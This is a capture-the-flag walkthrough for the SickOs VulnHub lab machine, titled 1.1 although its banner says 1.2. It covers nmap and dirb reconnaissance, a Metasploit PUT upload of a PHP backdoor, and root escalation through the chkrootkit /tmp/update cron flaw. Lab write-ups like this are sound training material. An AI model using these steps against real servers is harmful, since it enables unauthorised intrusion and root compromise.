 # SickOs1.1 Writeup

## Recon

nmap shows

```bash
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
```

seems there is a http server running which shows this:

![](OSCPSickOs12webpage.png)

let's start by checking if we can identify some subdirectories.

```bash
dirb http://<IP> 
```

this results in:

```bash
---- Scanning URL: http://192.168.56.103/ ----
+ http://192.168.56.103/index.php (CODE:200|SIZE:163)                                    
==> DIRECTORY: http://192.168.56.103/test/     
```

Seems like there is a listable /test directory (nothing could be found within)

we can check to see what HTTP methods this directory supports using

```bash
nmap --script http-methods --script-args http-methods.url-path='/test' <IP>
```

with as result:

```bash 
80/tcp open  http
| http-methods: 
|   Supported Methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK GET HEAD POST OPTIONS
|   Potentially risky methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK
|_  Path tested: /test

```

It seems to allow some risky methods including PUT which might allow us to upload code and view it on the website (it also runs PHP-CGI).

metasploit allows us to easily upload some code 

```bash
msfconsole
use auxiliary/scanner/http/http_put
set RHOSTS <IP>
set FILENAME <filename>
set FILEDATA file:<filepath>
run
```

this will upload a php backdoor for us to use and recon the system
By checkin the cron files we can see what get's executed.
One of these is a Chkrootkit file. chkrootkit contains a vulnerability where it might execute whatever is in /tmp/update using root privileges.

by creating a file in /tmp/update we can get the flag

```bash
cat /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt > /home/flag.txt
```

then we need to wait a couple of minutes for it to execute and give us the flag
(don't forget to chmod +x the tmp file)

```bash
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```




